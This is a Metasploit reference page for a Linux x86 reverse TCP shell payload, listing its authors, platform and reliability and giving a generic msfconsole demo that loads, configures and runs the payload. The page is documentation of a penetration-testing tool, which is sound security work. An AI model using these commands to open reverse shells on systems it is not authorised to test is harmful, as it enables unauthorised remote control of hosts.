 ## Linux Command Shell, Reverse TCP Inline - Metasm Demo

Connect back to attacker and spawn a command shell


## Module Name
payload/linux/x86/shell_reverse_tcp2

## Authors
* skape
* Yoann Guillot
* Julien Tinnes <julien[at]cr0.org>





## Platforms
linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/x86/shell_reverse_tcp2
msf payload(shell_reverse_tcp2) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp2) > set TARGET <target-id>
msf payload(shell_reverse_tcp2) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp2) > run
```
    
    